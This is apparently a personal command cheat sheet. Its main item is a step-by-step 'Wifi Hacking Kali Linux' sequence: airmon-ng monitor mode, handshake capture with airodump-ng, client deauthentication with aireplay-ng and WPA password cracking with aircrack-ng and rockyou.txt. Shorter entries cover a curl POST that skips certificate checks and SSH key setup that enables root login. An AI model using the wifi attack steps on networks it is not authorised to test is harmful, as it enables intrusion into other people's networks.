 19. Wifi Hacking Kali Linux

    ```bash
    - iwconfig => list out network / wifi interfaces
    - airmon-ng => list out wifi interfaces and test if airmon install or not
    - airmon-ng start wlan0 => start monitor monitor mode using wlan0 interface
    - airodump-ng wlan0mon => capture all available wifi / AP
    - airodump-ng -w hack1 -c 2 -bssid YOUR_WIFI_SSID_HERE wlan0mon => capture handshake from that Wifi SSID and save to hack1.cap file
    - aireplay-ng -deauth 0 -a USER_MAC_ADDRESS_HERE wlan0mon => deauth user to get full handshake connection
    - wireshark hack1.cap = open cap file in wireshark
    - aircrack-ng hack1.cap -w /usr/share/wordlists/rockyou.txt => brute force wifi password using rockyou wordlist
    - airmon-ng stop wlan0mon => revert back wifi interface to normal mode
    ```

20. POST Request with CURL

    - Explanation
      - -k for insecure, to bypass SSL cert
      - -H for adding header
      - -X for request type (GET, POST etc)
      - -d for data or requestBody

    ```bash
    curl -k -X POST -H "Content-Type: application/json" -H "Accept-Charset: utf-8" -d '{"requestPayload": {"emplNo" : "123456567"}}' https:yourUrl.com
    ```



21. Generating SSH Key-Pair (To ensure SSH without password)

    - Note to myself => Public key need to be generated from the host(Windows 10) and paste it in the server

    ```bash
    #IN Windows 10
    ssh-keygen
    chmod 700 ~/.ssh
    move id_rsa.pub to Linux Server

    #In Linux
    ls -l ~/.ssh/id* => Check for existing key pairs
    cat /etc/ssh/sshd_config => set 'PubKeyAuthentication yes', set 'PasswordAuthentication no' and uncoment 'PermitRootLogin yes'
    ssh -i root@192.168.0.197
    ```



### **Bash Course**

1. `cat /etc/shells`

   - display all shells available in the system

2. `which bash`

3.


